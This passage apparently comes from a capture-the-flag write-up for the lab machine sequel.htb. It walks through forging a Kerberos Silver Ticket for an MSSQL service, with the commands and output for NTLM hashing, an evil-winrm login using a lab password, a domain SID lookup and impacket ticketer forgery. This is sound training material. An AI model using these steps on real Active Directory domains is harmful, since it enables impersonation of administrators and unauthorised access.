* https://www.netwrix.com/silver_ticket_attack_forged_service_tickets.html

Following the logic of a Silver Ticket attack we could be able to forge a ticket in behalf of the user
Administrator to access the MSSQL service. Unfortunately, there is no Service Principal Name (SPN) set
for this service instance so Kerberos isn't able to produce a valid Service Ticket for us that we could then try
and alter.

In this case, we can use ticketer from impacket. This script, has the benefit that the ticket creation is done
locally, meaning that there is no need to contact Kerberos on the remote machine and ask for a Service
Ticket. Moreover, we have to keep in mind that the service is responsible for validating presented tickets
and not Kerberos. So, even if Kerberos is unaware that MSSQL is running under sql_svc if we manage to
craft a valid ticket locally for the Administrator user we should be able to access the service as this user.

### NTLM hash generator
```bash
Python 3.11.6 (main, Oct  8 2023, 05:06:43) [GCC 13.2.0] on linux

>>> import hashlib
>>> hashlib.new('md4', 'REGGIE1234ronnie'.encode('utf-16le')).digest()
b'\x14C\xec\x19\xdaM\xacO\xfc\x95;\xca\x1bW\xb4\xcf'
>>> hashlib.new('md4', 'REGGIE1234ronnie'.encode('utf-16le')).digest().hex()
'1443ec19da4dac4ffc953bca1b57b4cf'
```

* https://codebeautify.org/ntlm-hash-generator

### Domain SID
```cmd
evil-winrm -i $IP -u sql_svc -p REGGIE1234ronnie
*Evil-WinRM* PS C:\Users\sql_svc\Documents> Get-ADDomain | fl DomainSID

DomainSID : S-1-5-21-4078382237-1492182817-2568127209
```

### Generate
The `spn` parameter is needed to produce a valid ticket but we can place anything we want since it's not set
to begin with.

```bash
/usr/share/doc/python3-impacket/examples/ticketer.py -nthash 1443ec19da4dac4ffc953bca1b57b4cf -domain-sid S-1-5-21-4078382237-1492182817-2568127209 -domain sequel.htb -spn doesnotmatter/dc.sequel.htb administrator

Impacket v0.11.0 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for sequel.htb/administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in administrator.ccache
```
